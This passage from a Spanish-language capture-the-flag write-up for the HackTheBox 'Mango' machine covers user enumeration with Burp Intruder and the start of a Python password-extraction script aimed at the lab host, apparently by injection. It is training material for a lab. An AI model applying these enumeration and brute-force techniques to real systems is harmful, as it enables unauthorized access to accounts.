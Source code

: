 Le daremos a **Start attack** y ordenaremos por la columna Status. Al cabo de un momento se obtienen dos caracteres válidos (```a```, ```m```), lo que nos da a pensar que al menos existen dos usuarios en la BD.

![](/images/HTB/Mango/36-burp-fuzzing4.png)

Después de un tiempo se logran enumerar los usuarios:

```plaintext
admin
mango
```

### Enumeración de contraseñas

En el caso de las contraseñas, para acelerar el proceso, he creado un script en **Python 3**.
  
```python
#!/usr/bin/python3
# Author: https://brsalcedom.github.io

import requests, string, re
from termcolor import colored, cprint
from pwn import *

users = ['admin', 'mango']
url = "http://staging-order.mango.htb/index.php"
burp = {'http': 'http://127.0.0.1:8080'}
payload = string.ascii_letters + string.digits + string.punctuation

def def_handler(sig, frame):
    print("\n[!] Exiting...")
    sys.exit(1)

#CTRL + C
signal.signal(signal.SIGINT, def_handler)

```